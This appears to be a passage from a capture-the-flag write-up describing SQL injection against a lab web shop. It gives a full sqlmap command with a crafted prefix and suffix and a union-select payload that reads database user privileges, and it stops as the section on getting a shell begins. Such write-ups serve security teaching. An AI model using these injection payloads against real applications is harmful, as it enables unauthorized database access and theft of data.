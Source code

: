 ![image-20240110102001914](https://0xdf.gitlab.io/img/image-20240110102001914.png)

Comparing this to the page (and looking at the raw HTML), I can assert that the products table probably has the following columns:

1. Likely ID (not shown on page)
2. Product Name
3. Features paragraph
4. Sale price
5. Regular price
6. Max number allowed to add to cart
7. Image name
8. unknown

I can enumerate the rest of the database, but there’s not much interesting in it.

#### sqlmap

All of this SQL injection can be automated using `sqlmap`. I’ll need to use the `--prefix` and `--suffix` parameters to add the leading newline and the trailing digit, and it needs at least `--level 2` to find it:

```
oxdf@hacky$ sqlmap -u "http://10.10.11.229/shop/?page=product&id=1" --prefix "%0A%0D'" --suffix="'-- -1" -p id --batch --level 2
...[snip]...
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 162 HTTP(s) requests:
---
Parameter: id (GET)
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: page=product&id=1
';SELECT SLEEP(5)'-- -1
---
[09:14:55] [INFO] the back-end DBMS is MySQL
...[snip]...

```

It is interesting that it finds a stacked queries attack, rather than union injection. This is a blind technique and will run very slowly.

### Shell

#### Enumerate Permissions

I noted [above](#analysis) that the application is connecting to MySQL as the root user. It’s worth checking for what permissions that user has. Privileges are stored in the `information_schema.user_privileges` table, so I’ll inject with `id=%0A100'+union+select+1,2,group_concat(grantee, ':', privilege_type),4,5,2,7,8+from+information_schema.user_privileges;--+-1`:

![image-20240110103954519](https://0xdf.gitlab.io/img/image-20240110103954519.png)
